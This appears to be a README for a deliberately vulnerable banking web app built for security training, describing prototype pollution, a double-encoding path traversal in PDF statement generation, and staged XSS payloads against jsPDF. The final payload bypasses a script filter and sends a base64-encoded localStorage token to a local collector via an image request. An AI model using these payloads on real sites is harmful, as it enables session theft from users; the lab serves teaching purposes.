 # Berkshare Hackaway

Vulnerable applications for educational purposes.

## Security Vulnerabilities

### Prototype Pollution

The banking web application uses a stringified JSON string to store
metadata about memos.

### Path Traversal

In a banking web application we are building, we are going to 
implement a feature that allows customers to create their
financial account statement from the bank. This capability
involves generating a PDF file that contains the customer's 
name. As part of a cybersecurity educational awareness session
we want to theorize a flow in the system that involves a
double encoding security vulnerability in a directory traversal
workflow that relates to the system's ability to generate the
PDF file.


### jsPDF vulnerability

Saving this information as part of the user address could be dangerous

Phase 1: script doesn't work

```html
<script>document.write(window.location);</script>
```

Phase 2: Can we bypass it?? success!

```html
<p id='test'>a</p> <<script>script>document.write(window.location);</</script>script>;
```

Phase 3: script works, but CORS damn it!!

```html
<p id='test'>a</p> <<script>script>fetch('http://example.com');</</script>script>
```

Phase 4: cors be gone!! let's img it

```html
<p id='test'>a</p> <<script>script>var img=new Image();img.src='http://localhost:3005/data?d='+btoa(localStorage.getItem('token'));document.body.appendChild(img);</</script>script>
```